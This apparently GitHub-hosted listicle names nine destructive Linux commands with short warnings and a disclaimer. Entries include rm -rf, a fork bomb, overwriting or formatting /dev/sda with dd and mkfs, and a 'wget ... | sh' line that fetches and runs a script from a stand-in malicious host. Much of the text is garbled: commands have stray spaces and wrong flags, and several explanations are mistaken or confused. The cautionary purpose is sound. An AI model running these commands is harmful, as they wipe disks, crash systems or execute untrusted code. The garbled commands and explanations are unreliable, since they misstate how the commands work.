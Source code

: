 ### DISCLAIMER: If you want to use these commands, use them at you own risk. I am not responsible for your actions.

---

### 1.

	rm -rf

The rm -rf command is one of the fastest ways to delete a folder and its contents.

---

### 2.

	: () {: |: &} ;:

(Fork bomb) It operates by defining a function called ", which is called twice, once in the foreground and once in the background. It keeps running again and again until the system freezes.

---

### 3.

	command> /dev/sda

Command writes the output of ‘command on the block / dev / sda’. The above command writes raw data and all files on the block will be replaced with raw data, resulting in total loss of data in the block.

---

### 4.

    mv directory /dev/null

This command basically moves all the files to / dev / null, yes, it means that it simply makes all the files from the system disappear.

---

### 5.

    wget http://malicious\_source -0 | sh

Command will download a script from a malicious source and then run it on your system. The wget commnad wil download the script and sh commnad will run the downloaded script on your system.

---

### 6.

    Mkfs.ext4 /dev/sda

Command will simply format the block ‘sda’ and you will definitely know that after running the above command your Block (Hard Disk Drive) will be reset to NEW! Without the data, the system will be in an unrecoverable phase.

---

### 7.

    \> file

The above command is used to release the file content. If the above command is executed with a typing error or ignorance as “> xt.conf” will write the configuration file or any other system or configuration file.

---

### 8.

    ^ foo ^ bar

This command is used to edit the previous command without the need to retype the entire command again. But it can be really problematic if you do not take the risk to carefully check the change in the original command using ^ ^ foo bar command.

---

### 9.

    dd if = / dev / random of = / dev / sda

The above command will end as / dev / sda and write random data for the block. Of course your system would be left in an unrecoverable phase.
